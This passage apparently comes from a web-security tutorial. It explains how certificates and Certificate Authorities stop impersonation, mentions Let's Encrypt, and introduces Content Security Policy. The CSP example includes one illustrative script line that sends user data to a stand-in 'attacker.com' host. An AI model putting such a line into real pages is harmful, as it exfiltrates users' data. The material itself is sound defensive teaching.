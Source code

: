 When you visit `www.bank.com`, how do you know it's actually the real bank and not an attacker pretending to be the bank?

```
Without certificates:
Attacker creates www.bank.com (they control it)
You connect to attacker's server
Attacker says "I'm the bank!"
You have no way to verify - could be anyone

With certificates:
Attacker creates www.bank.com
You connect to attacker's server
Browser asks: "Can you prove you're the real bank.com?"
Attacker cannot - they don't have the real bank's certificate
Connection fails safely
```

**Certificate Authorities (CAs):** Third-party organizations that verify website identity and issue certificates.

```
Process:
1. Bank registers domain www.bank.com
2. Bank proves to Certificate Authority (CA): "I own www.bank.com"
3. CA verifies ownership (checks domain records, etc.)
4. CA signs a certificate: "I verify that the real Bank Corp owns www.bank.com"
5. Bank installs this signed certificate on their server
6. When you visit www.bank.com, server shows you the certificate
7. Your browser checks: "Did a trusted CA sign this?"
8. Yes → Connection is secure and authentic
9. No (or forged) → Browser warns you or blocks the connection
```

**Let's Encrypt (2016):** The first free, automated Certificate Authority. Before this, SSL certificates were expensive. Let's Encrypt democratized HTTPS.

---

## 10.3 Content Security Policy (CSP): Preventing XSS Attacks

### The First Principle: Whitelisting Trusted Sources

Content Security Policy is a way to tell the browser: "Only execute JavaScript from sources I trust. Reject everything else."

```html

<script>
  // Any code here runs
  fetch("https://attacker.com/steal?data=" + userData);
</script>


<meta
  http-equiv="Content-Security-Policy"
  content="default-src 'self'; script-src 'self' https://trusted.com"
/>
```
